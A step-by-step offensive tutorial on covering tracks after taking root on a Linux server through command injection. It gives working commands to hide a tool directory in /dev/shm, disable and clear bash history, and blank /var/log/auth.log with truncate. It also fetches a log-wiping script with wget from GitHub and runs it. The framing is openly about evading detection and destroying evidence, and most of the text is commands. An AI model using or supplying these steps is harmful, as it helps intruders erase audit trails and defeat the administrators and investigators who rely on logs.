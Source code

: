 ### **STEP 1: ESTABLISH CONTROL OVER THE TARGET SYSTEM**

The initial phase in compromising a target system is to gain control, typically through vulnerabilities like command injection. Command injection exploits allow you to execute arbitrary operating system commands on the server, which can lead to obtaining a shell. A fully interactive shell is essential for smooth operation, as it provides features like command history and tab completion, making your tasks easier to manage and more efficient.

### **STEP 2: CREATE A HIDDEN AND EASILY REMOVABLE DIRECTORY**

Once you've secured root access, it's prudent to set up a hidden directory where you can store your tools, scripts, and other files necessary for maintaining control over the system. Although creating a hidden directory won't deceive a seasoned administrator, it adds an extra layer of security against casual inspections.

1.  Start by identifying directories that are writable:  
    `root@hackfast:/# find / -perm -222 -type d 2>/dev/null`  
    **NOTE:**  Some common writable directories you might find include `/dev/shm`, `/tmp`, and `/var/tmp`.
    
2.  Next, create a hidden directory within one of these writable locations:  
    `root@hackfast:/# mkdir /dev/shm/.hidden`
    
3.  This directory will remain invisible during a normal `ls` command, appearing only when you use the `-a` flag:  
    `root@hackfast:/# ls -la /dev/shm/`
    
4.  To remove the directory after you're done, use:  
    `root@hackfast:/# rmdir /dev/shm/.hidden/`
    

### **STEP 3: ERASE COMMAND HISTORY TO AVOID DETECTION**

1.  Bash history is a record of the commands you execute during your session, which could be used to trace your activities. To ensure your tracks are covered, you need to clear or disable the command history. Begin by viewing the current session's history:  
    `root@hackfast:/# history`
    
2.  To stop the history from being recorded, unset the `HISTFILE` environment variable:  
    `root@hackfast:/# unset HISTFILE`
    
3.  This command disables the history logging by removing the file path where history is stored. Alternatively, you can redirect the history to `/dev/null` so that it is not saved anywhere:
    
    ```
    root@hackfast:/# HISTFILE=/dev/null
    root@hackfast:/# export HISTFILE=/dev/null
    ```
    
4.  Additionally, reduce the history size to zero to ensure no commands are logged:
    
    ```
    root@hackfast:/# HISTSIZE=0
    root@hackfast:/# export HISTSIZE=0
    ```
    
5.  These commands ensure that no history is recorded during your session. For a thorough cleanup, clear the current session's history with:  
    `root@hackfast:/# history -c`
    
6.  And write the changes to disk to make them permanent:  
    `root@hackfast:/# history -w`
    

### **STEP 4: CLEAR SYSTEM LOG FILES TO ERASE EVIDENCE**

System logs are another potential source of evidence. Logs such as `/var/log/auth.log` contain crucial information about authentication events and other system activities. Simply deleting these logs could raise suspicion, so it's better to clear their content without removing the files themselves.

1.  You can use the truncate command to empty a log file without deleting it:  
    `root@hackfast:/# truncate -s 0 /var/log/auth.log`
    
2.  If the truncate command is not available, you can achieve the same result with:  
    `root@hackfast:/# echo '' > /var/log/auth.log` or `root@hackfast:/# > /var/log/auth.log`  
    **NOTE:** These methods effectively erase the contents of the log files, reducing the likelihood of detection.
    

### **STEP 5: USE AUTOMATED TOOLS FOR COMPREHENSIVE CLEANUP**

1.  For a more extensive and automated cleanup, consider using tools like CoverMyAss. This script automates many of the processes discussed, including clearing logs and disabling Bash history. Download the script with `wget`:  
    `root@hackfast:/# wget https://raw.githubusercontent.com/sundowndev/covermyass/master/covermyass`
    
2.  Make the script executable:  
    `root@hackfast:/tmp# chmod +x covermyass`
    
3.  Run the script and follow the on-screen prompts to clear logs, disable history, or perform other cleanup tasks:  
    `root@hackfast:/tmp# ./covermyass`
    
4.  If you need to clear everything quickly, you can run the script with the `now` option:  
    `root@hackfast:/tmp# ./covermyass now`  
    **NOTE:** This option instantly clears logs and removes traces of your activity.
